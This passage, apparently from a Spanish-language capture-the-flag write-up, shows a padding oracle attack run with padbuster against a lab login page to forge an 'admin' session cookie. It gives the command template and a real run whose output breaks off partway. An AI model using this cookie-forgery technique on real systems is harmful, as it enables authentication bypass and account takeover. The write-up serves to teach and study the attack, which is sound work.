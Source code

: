Y logramos ingresar otra vez a la sesión del usuario **admin**. La segunda forma necesitamos registrar un usuario cualquiera y con la herramienta **padbuster** para llevar a cabo un [***Padding Oracle Attack***](https://sysfatal.github.io/oracle.html) utilizando la siguiente sintaxis.

```bash
padbuster http://192.168.1.x/login.php D8GjDDheDK%2F%2B7vMT7B7ceSyl3BuPZ9km 8 --cookies auth=D8GjDDheDK%2F%2B7vMT7B7ceSyl3BuPZ9km --encoding 0
```

Ajustando el comando a los datos que tenemos, agregando el usuario que sabemos que existe **admin** y suponiendo que el cifrado CBC se compone por 8 bloques, nos queda de la siguiente forma:

```bash
❯ padbuster http://10.10.10.18/login.php yLGw3MQ3Gwx7GVAVP1bwlhgnEF40Lae3 8 --cookies auth=yLGw3MQ3Gwx7GVAVP1bwlhgnEF40Lae3 --encoding 0 --plaintext user=admin

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 1486

INFO: Starting PadBuster Encrypt Mode
[+] Number of Blocks: 2

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     1564    N/A
2 **    255     200     15      N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
```